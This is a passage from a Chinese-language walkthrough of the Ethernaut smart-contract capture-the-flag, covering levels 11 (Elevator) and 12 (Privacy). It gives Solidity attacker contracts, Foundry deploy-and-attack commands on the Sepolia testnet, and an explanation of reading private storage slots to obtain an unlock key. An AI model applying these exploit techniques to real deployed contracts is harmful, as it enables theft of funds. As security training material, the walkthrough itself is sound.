 还需要一个脚本去部署 `Attacker` 合约并发起攻击

```
address levelAddr = 0x5B0424701F6f9a8e27CF76DAfC918A5E558f0Dc5;

Attacker attacker = new Attacker(levelAddr);

attacker.attack(100);
```

完整代码见：[这里](ethernaut/script/level11.s.sol)

Foundry 脚本：

调用脚本部署并发动攻击：
```
forge script script/level11.s.sol:CallContractScript --rpc-url sepolia --broadcast
```

查询是否到达顶层
```
cast call 0x5B0424701F6f9a8e27CF76DAfC918A5E558f0Dc5 \
"top()(bool)" \
--rpc-url sepolia
```


链上记录：
- [level(`Elevator`)](https://sepolia.etherscan.io/address/0x5B0424701F6f9a8e27CF76DAfC918A5E558f0Dc5)
- [Attacker](https://sepolia.etherscan.io/tx/0xe7A0a41d009bB4D3cCEa09A39423e9499A6dEC48)
- [attack 交易](https://sepolia.etherscan.io/tx/0x4fd6a5b48ad937e8e9d210f9cef031d39ba50ea6df51685edbe15e37512b0971)


## lelve 12

[The Ethernaut level 12](https://ethernaut.openzeppelin.com/level/12)

这一关的要求是解锁 `Privacy` 合约。

仔细阅读这个合约，解锁 `Privacy` 合约的方式是调用 `unlock` 方法并输入正确的 `_key`。`_key` 值从合约的存储值 `data` 而来。因此，该挑战其实考的是合约的存储布局。

`Privacy` 合约中变量的存储布局：

- `bool public locked` 存储在槽 `0`。
- `uint256 public ID` 存储在槽 `1`。
- `uint8 private flattening`、`uint8 private denomination` 和 `uint16 private awkwardness` 会紧凑地存储在槽 `2`（因为它们总共占 32 位）。
- `bytes32[3] private data` 是一个静态大小的数组，所以它会在存储槽 `3` 开始连续存储，其每个元素占用一个存储槽（即槽 `3`、槽 `4`、槽 `5`）


因此，可以通过 Foundry 的作弊码读取存储槽 `5` 的值，就可以顺利解锁 `Privacy` 合约。

示例代码如下：

```
contract Attacker is Building {
    Privacy level;

    constructor(address level_) {
        level = Privacy(level_);
    }

    function attack(bytes16 _key) public {
        level.unlock(_key);
    }
}
```
